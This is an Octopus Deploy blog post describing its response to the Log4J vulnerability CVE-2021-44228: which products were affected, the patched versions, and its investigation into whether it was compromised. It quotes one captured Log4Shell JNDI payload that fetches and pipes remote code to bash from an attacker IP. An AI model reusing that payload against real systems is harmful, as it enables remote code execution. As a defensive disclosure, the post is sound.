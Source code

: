 ```yaml
---
title: Octopus Deploy's response to Log4J
description: Learn how Octopus Deploy responded to the Log4J vulnerability (CVE-2021-44228).
author: kyle.jackson@octopus.com
visibility: public
published: 2021-12-14-1400
metaImage: blogimage-security.png
bannerImage: blogimage-security.png
bannerImageAlt: Octopus on shield to represent security
isFeatured: false
tags: 
  - Product
  - Trust and Security
---
```


On Thursday, December 9, 2021, Octopus Deploy was made aware of a vulnerability in the Log4J logging utility ([CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228)). We immediately enacted our Security Incident Response Plan to investigate our use of this utility and its impact on our products and infrastructure.

Fortunately, Octopus Cloud, Octopus Server, and Octopus Tentacle are not affected. However, there are some related products that are impacted and require updates.

In this post, we share the results of our investigation and our recommended next steps for customers.

## JetBrains TeamCity plugin for Octopus Deploy

Version 6.1.7 of the JetBrains TeamCity plugin uses version 2.15.0 of Log4J. However, all versions of the plugin before 6.1.7 are using version 2.14.1 of Log4J and could be vulnerable to remote code execution.

### What you need to do

Version 6.1.7 of the Octopus Deploy plugin for TeamCity has been published to the marketplace. If you're a TeamCity user, you should be notified of this update through the Web UI and you're strongly encouraged to update.

Follow our [security advisory](https://advisories.octopus.com/adv/2021-12---Octopus-Deploy-TeamCity-Plugin-log4j2-dependency.2306410241.html) for updates.

## Octopus Java SDK

Version 0.0.3 of the Java SDK has been updated to use version 2.15.0 of Log4J. However, all versions of the Java SDK before 0.0.3 are using version 2.14.1 of Log4J and could be vulnerable to remote code execution.

### What you need to do

We recommend that customers using the Octopus Java SDK update their SDK version to 0.0.3.

Follow our [security advisory](https://advisories.octopus.com/adv/2021-13---Octopus-Java-Client-SDK-log4j2-dependency.2306475696.html) for updates.

## Octopus Cloud, Octopus Server, and Octopus Tentacle

Octopus Cloud, Octopus Server, and Octopus Tentacle are not affected by this vulnerability. They’re built with the .NET framework and don’t use any ported versions of Log4J.

## Breakdown of all products

| Product | Vulnerable Log4J version used | Vulnerable product versions | Patched product versions |
| ------- | ----------------------------- | --------------------------- | ------------------------ |
| Azure Devops & TFS Extension | No | N/A | N/A |
| Bamboo Add-on | No | N/A | N/A |
| Java SDK | Yes | <= 0.0.2 | 0.0.3 |
| Jenkins Plugin | No | N/A | N/A |
| Octopus CLI | No | N/A | N/A |
| Octopus Cloud | No | N/A | N/A |
| Octopus Server | No | N/A | N/A |
| Octopus Tentacle | No | N/A | N/A |
| TeamCity Plugin | Yes | <= 6.1.5 | 6.1.7 |

## Was Octopus Deploy compromised? 

Our internal infrastructure runs products that were using a vulnerable version of Log4J. However, we invested a significant amount of time after the initial announcement on Thursday, December 9, and we believe Octopus Deploy was not compromised.

While our engineering teams worked to update our affected products, our Security Operations team analyzed our systems to determine if they'd been exploited. The following sections will go further into our approach.

### Reviewing our internal infrastructure

The vast majority of our internal infrastructure is maintained as Infrastructure as Code (IaC). This allowed us to easily identify potentially vulnerable systems and push updates to those systems with minimal intervention.

When we couldn't determine if a system was vulnerable or not, we used known proof of concepts (PoC) to test if a system was vulnerable. This meant we could better mitigate the particular system.

### Reviewing network traffic

We maintain a lot of network data across our infrastructure, which allows us to identify suspicious network behavior that can result in exploitation of our infrastructure. While reviewing the network data, we identified the following:

1. Suspicious activity - We identified suspicious inbound network traffic to our systems including source IPs. However, we didn't identify any malicious outbound traffic which was reassuring.
1. Identifying targeted systems - While analyzing the network data we identified specific systems that were being aggressively targeted. We put extra controls and mitigations around those systems to reduce the risk of exploitation.

Here is a user agent string that was sent to one of our servers (decoded and redacted):

```
${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/(curl -s 45.155.205.233:5874/XXX.XXX.XXX.XXX:443||wget -q -O- 45.155.205.233:5874/XXX.XXX.XXX.XXX:443)|bash}
```
### Reviewing endpoints

Using the information from the network data, we reviewed specific endpoints that we knew had been aggressively targeted and confirmed they hadn't been compromised.

By using an EDR solution on our endpoints, we also closely monitored the endpoints for signs of compromise or potential exploitation. This data (along with other data sets) feeds into our SIEM (Security Incident and Event Management) system so we're alerted in near real-time and can respond accordingly.

Using all these approaches to investigate our infrastructure, we found no evidence of a compromise.

## Conclusion

We're continuing to track updates relating to this vulnerability. We'll provide further updates if there's any risk to our customers or products. 

If you have any questions, please reach out via [support@octopus.com](mailto:support@octopus.com).